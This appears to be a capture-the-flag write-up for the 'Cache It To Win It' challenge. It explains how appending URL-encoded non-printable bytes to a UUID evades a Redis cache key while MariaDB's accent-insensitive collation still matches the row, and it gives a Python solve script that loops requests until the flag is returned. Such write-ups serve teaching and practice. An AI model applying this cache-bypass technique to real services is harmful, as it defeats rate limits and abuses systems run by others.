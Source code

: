 # Cache It To Win It
## Summary
This challenge uses URL byte encodings to avoid a simple REDIS cache, allowing the attacker to execute the python code related to a path more often than intended.

**Artifacts:**
* `app.py`: vulnerable Flask server defined in a python file
* `docker-compose.yaml`: Docker compose file to spin up the Redis cache, MariaDB SQL database, and Flask server, and set up environment variables such as the flag.
* `Dockerfile`: the Dockerfile defining the Flask server environment.
* `init.sql`: initial SQL to create the necessary tables in the database.
* `requirements.txt`: Python requirements file
* `solve.py`: Python script to solve the challenge
* `test.py`: Python scripts to test python utf-8 implementation.


## Context

The `Cache It To Win It` challenge authors provide a website that serves as the challenge. They also provide a copy of the server source code, in the form of a Python file (`app.py`).

The server is a simple Flask server, which contains backend logic and serves the user a barebones frontend.

The site has very little user input, just assigning the user a unique user ID, then allowing them to check if they "won."

![Challenge Image](images/landing_page.png)

When the user clicks the link to check if they are a winner, they are directed to this page:

![Challenge Image](images/you_won.png)

Returning via the link and and checking again if you won does not decrement the counter, instead you get a cache hit in the response headers. 

Looking at the flask server, we can see the snipit that is handeling all of this logic

```python
def normalize_uuid(uuid: str):
    uuid_l = list(uuid)
    i = 0
    for i in range(len(uuid)):
        uuid_l[i] = uuid_l[i].upper()
        if uuid_l[i] == "-":
            uuid_l.pop(i)
            uuid_l.append(" ")

    return "".join(uuid_l)


def make_cache_key():
    return f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]  # prevent spammers from filling redis cache


check_bp = Blueprint("check_bp", __name__)


@check_bp.route("/check")
@cache.cached(timeout=604800, make_cache_key=make_cache_key)
def check():
    user_uuid = request.args.get("uuid")
    if not user_uuid:
        return {"error": "UUID parameter is required"}, 400

    run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))
    res = run_query("SELECT * FROM users WHERE id = %s;", (user_uuid,))
    g.cache_hit = False
    if "affected_rows" not in res:
        print("ERRROR:", res)
        return "Error"
    if res["affected_rows"] == 0:
        return "Invalid account ID"
    num_wins = res["result"][0]["value"]
    if num_wins >= 100:
        return f"""CONGRATS! YOU HAVE WON.............. A FLAG! {os.getenv("FLAG")}"""
    return f"""<p>Congrats! You have won! Only {100 - res["result"][0]["value"]} more wins to go.</p>
    <p>Next attempt allowed at: {(datetime.datetime.now() + datetime.timedelta(days=7)).isoformat(sep=" ")} UTC</p><p><a href="/">Go back to the homepage</a></p>"""
```

Every time a request is sent to the /check path, the server will check for a cached response based on the return of the make_cache_key function. That function takes in your uuid supplied, and returns a normalized version.

If there is a cache hit, the check() function will not run. If there is a cache miss, the check function will run `run_query("UPDATE users SET value = value + 1 WHERE id = %s;", (user_uuid,))`. This increments the counter in the row of the database with a matching uuid.

A query is then run to get the value of that counter, and if that row exists, and the counter is greater than or equal to 100, it prints the flag.

So the goal of this exploit becomes clear, find a way to run the check() code 100 times where the sql database interprates the same uuid, while making the cache not see the same uuid and thus filter the requests.

## Vulnerability

When an SQL server interprates strings,  it will use a collation type, which essentially defines how it decides if two strings are equal, and how to sort them if not. There are normally rules related to how it handes capital letters, whitespace, both generally and trailing, and the full utf character set with accents and the like.

By default, this mariaDB database uses the utf8mb4_uca1400_ai_ci collation. This collation is case insensitive (ci) and accent insensitive (ai).

The normalize_uuid function does capitalize every letter before saving in the cache, so we will not be able to just capitalize a letter to solve this, but it has no way to deal with accents. By default, python will both deal with the full utf-8 characterset, and allow nonprintable ascii chars in strings (whose format looks like "\01"). When a string containing one of these is passed to normalize-uuid, we can observe what happens with the test.py script:

```
b'Caf\xc3\xa9' normalized is b'CAF\xc3\x89'
b'cafe\xcc\x81' normalized is b'CAFE\xcc\x81'
b'cafe\x01' normalized is b'CAFE\x01'
b'cafe\x00' normalized is b'CAFE\x00'
```

The non-printable characters are kept, and thus will be used as part of the cache by the flast application.

Dealing with which ascii chars make valid accents is a bit of a pain, and there is little in the way of technical specifications that I could find online about this collation, so before we launch into a full utf-8 adventure, lets just try to append some random url-encoded non-printable characters to the end of the query string to see what happens.

```
https://cache-it-to-win-it.chall.lac.tf/check?uuid=a23d3e4b-bde2-4211-bf53-df0ddc42d301%01

Congrats! You have won! Only 98 more wins to go.
```

This worked! we have avoided the cache, and the counter decremented by 1.

We can just append many different nonprintable chars, solo or in combination, so that we decrement this counter all the way down to 0, and recieve the flag!

To automate this exploit, we can create a little script which essentially pulls the users unique UUID from the first request, then repeatadly appends incrementing nonprintable ascii characters to the end, and sends it to the /check endpoint until it sends the flag back.

```python
import requests
from bs4 import BeautifulSoup
server = "https://cache-it-to-win-it.chall.lac.tf/"
response = requests.get(server)
soup = BeautifulSoup(response.text, 'html.parser')
# getting the uuid string
uuid_str = soup.title.string
response = requests.get(server + "check?uuid=" + uuid_str)
add = ""
counter = 0
print("uuid:", uuid_str)
#iterating through nonprintable chars. We have to use 2 so the total gets to 100.
while "FLAG" not in response.text:
    add = "%" + hex(counter % 31)[2:].zfill(2) + "%" + hex(counter // 31)[2:].zfill(2)
    response = requests.get(server + "check?uuid=" + uuid_str + add)
    counter += 1
print(response.text)
```

## Configuration Notes

Run docker-compose up in the directory with the docker compose file to run the challenge. It will spin up docker containers for the flask server, database, and redis cache.

Execute the target script against a local container by changing the server variable to point at localhost and the defined IP (by default 5000 in the docker compose.) So if you keep the defaults and that port is open, the server variable should be `http://localhost:5000/`

Then, just running the script should quickly solve the challenge. It will take a bit longer to solve it against a remote box as the connection latency of sending 100 requests is the biggest bottleneck with this exploit.